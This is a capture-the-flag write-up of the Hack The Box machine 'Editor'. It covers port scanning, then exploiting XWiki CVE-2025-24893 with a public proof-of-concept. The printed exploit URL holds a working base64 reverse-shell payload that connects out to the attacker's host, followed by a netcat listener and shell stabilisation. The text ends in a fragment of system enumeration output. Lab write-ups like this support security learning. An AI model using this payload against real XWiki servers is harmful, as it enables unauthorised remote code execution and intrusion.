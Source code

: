 # Title : Editor 

## Enumeration

### Port Scanning

```bash

$ nmap -sV -sC -Pn -A 10.10.11.80   
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-10 15:51 WAT
Nmap scan report for 10.10.11.80
Host is up (0.52s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editor.htb/
8080/tcp open  http    Jetty 10.0.20
|_http-server-header: Jetty(10.0.20)
| http-title: XWiki - Main - Intro
|_Requested resource was http://10.10.11.80:8080/xwiki/bin/view/Main/
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
|_  Server Type: Jetty(10.0.20)
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/ 
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/ 
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/ 
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/ 
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/ 
|_/xwiki/bin/undelete/
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Potentially risky methods: PROPFIND LOCK UNLOCK
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   226.80 ms 10.10.14.1
2   226.78 ms 10.10.11.80

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.89 seconds


```
- on the  server 3 port were open 80, 8080 and 22

- i add `http://editor.htb/` to `/etc/hosts`

```sh

sudo echo "10.10.11.80      editor.htb   wiki.editor.htb" >> /etc/hosts

```

- after add it to my '/etc/hosts', i proceed  to access it via a web broswer and on port 8080 it runing Jetty(10.0.20)
 it host `XWiki Debian 15.10.8` 

 - which i found an exploit `https://github.com/dollarboysushil/CVE-2025-24893-XWiki-Unauthenticated-RCE-Exploit-POC.git`

 ```sh

$ git clone https://github.com/dollarboysushil/CVE-2025-24893-XWiki-Unauthenticated-RCE-Exploit-POC.git
Cloning into 'CVE-2025-24893-XWiki-Unauthenticated-RCE-Exploit-POC'...
remote: Enumerating objects: 12, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (11/11), done.
remote: Total 12 (delta 1), reused 12 (delta 1), pack-reused 0 (from 0)
Receiving objects: 100% (12/12), 294.07 KiB | 84.00 KiB/s, done.
Resolving deltas: 100% (1/1), done.

$ cd CVE-2025-24893-XWiki-Unauthenticated-RCE-Exploit-POC/

$ python CVE-2025-24893-dbs.py 
    
 
   _______      ________    ___   ___ ___  _____     ___  _  _   ___   ___ ____  
  / ____\ \    / /  ____|  |__ \ / _ \__ \| ____|   |__ \| || | / _ \ / _ \___ \ 
 | |     \ \  / /| |__ ______ ) | | | ) | | |__ ______ ) | || || (_) | (_) |__) |
 | |      \ \/ / |  __|______/ /| | | |/ /|___ \______/ /|__   _> _ < \__, |__ < 
 | |____   \  /  | |____    / /_| |_| / /_ ___) |    / /_   | || (_) |  / /___) |
  \_____|   \/   |______|  |____|\___/____|____/    |____|  |_| \___/  /_/|____/ 
                                                                                 
                                                                                 

           CVE-2025-24893 - XWiki Groovy RCE Exploit
                   exploit by @dollarboysushil

[?] Enter target URL (including http:// or https:// e.g http://10.10.10.18.10:8080): http://10.10.11.80:8080 
[?] Enter your IP address (for reverse shell): 10.10.14.72
[?] Enter the port number: 4444

[+] Crafting malicious reverse shell payload...

[+] Sample Format:
    http://target/xwiki/bin/get/Main/SolrSearch?media=rss&text=<payload>

[+] Final Exploit URL:
http://10.10.11.80:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async=false%7D%7D%7B%7Bgroovy%7D%7D%22bash%20-c%20%7Becho,YmFzaCAtYyAnc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNzIvNDQ0NCAwPiYxJw==%7D%7C%7Bbase64,-d%7D%7C%7Bbash,-i%7D%22.execute%28%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D

[+] Sending exploit via curl...

[+] Exploit delivered successfully! Check your listener.

[+] Done. Awaiting reverse shell connection on 10.10.14.72:4444 ...



 ```

- bam you have your shell

```bash
$ nc -lvnp 4444       
listening on [any] 4444 ...
connect to [10.10.14.72] from (UNKNOWN) [10.10.11.80] 37030
sh: 0: can't access tty; job control turned off
$ 


```
 - i use python to stablizer my shelll

 ```bash

python3 -c 'import pty; pty.spawn("/bin/bash")'

 ctrl + z

stty raw -echo && fg

 ```


 /var/log/xwiki/2025_08_19.jetty.log
/var/log/xwiki/2025_08_19.request.log


╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found /var/lib/command-not-found/commands.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 5, database pages 831, cookie 0x4, schema 4, UTF-8, version-valid-for 5
Found /var/lib/fwupd/pending.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 3, database pages 6, cookie 0x5, schema 4, UTF-8, version-valid-for 3
Found /var/lib/PackageKit/transactions.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 5, database pages 8, cookie 0x4, schema 4, UTF-8, version-valid-for 5


